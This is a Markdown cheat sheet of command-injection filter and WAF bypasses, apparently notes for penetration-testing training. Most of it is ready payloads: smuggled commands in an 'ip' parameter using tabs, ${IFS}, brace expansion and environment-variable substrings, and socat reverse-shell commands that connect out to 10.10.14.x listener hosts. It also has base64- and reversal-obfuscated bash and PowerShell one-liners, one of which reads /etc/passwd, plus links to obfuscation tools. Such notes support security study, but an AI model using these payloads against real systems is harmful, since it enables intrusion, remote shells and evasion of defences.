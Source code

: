 Identify if there are any command injection filters or WAF's in place.

> [!NOTE] Note
>  If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF

### Space Filter
Use a tab (`%09`) instead of a space
```php
ip=127.0.0.1\n%09id
```
Use `${IFS}` in place of a space
```php
ip=127.0.0.1\n${IFS}id
```
Bash Brace Expansions
```php
ip=127.0.0.1\n{ls,-la}
```
### Substitute with Environment Variables
Linux
```shell
echo ${PATH:0:1}
/
ip=127.0.0.1%0a${IFS}ls${IFS}${PATH:0:1}home

echo ${LS_COLORS:10:1}
;
ip=127.0.0.1${LS_COLORS:10:1}id

%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash
```

Stabilize socat shell 
```bash
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash

socat file:`tty`,raw,echo=0 tcp-listen:4443    <-- On our host

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
```

```php
ip=127.0.0.1${LS_COLORS:10:1}${IFS}id
```
Windows
```powershell
echo %HOMEPATH:~6,-11%      <-- command prompt
\
$env:HOMEPATH[0]            <-- powershell 
\
```

### Command Filters
Use quotes Linux+Windows
```shell
w'h'o'am'i
i"d"
```
Linux only
```shell
who$@ami
w\ho\am\i
```
Window only
```powershell
who^ami
```
### Advanced Obfuscation

> [!NOTE] Note
> If there are spaces within the payload, those may need to get subbed out as well

Case manipulation - Windows
```shell
WhOaMi
```
Linux - case sensitive
```shell
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")
```
Reversed commands - Linux
```shell
echo 'whoami' | rev

$(rev<<<'imaohw')
```
Windows
```powershell
"whoami"[-1..-20] -join ''

iex "$('imaohw'[-1..-20] -join '')"
```
Custom Base64 encoding - Linux -**<<< can be used to substitute |**
```shell
echo -n 'cat /etc/passwd | grep 33' | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
Windows
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
echo -n whoami | iconv -f utf-8 -t utf-16le | base64    <--LINUX

iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
#### Evasion tools
- https://github.com/Bashfuscator/Bashfuscator
- https://github.com/danielbohannon/Invoke-DOSfuscation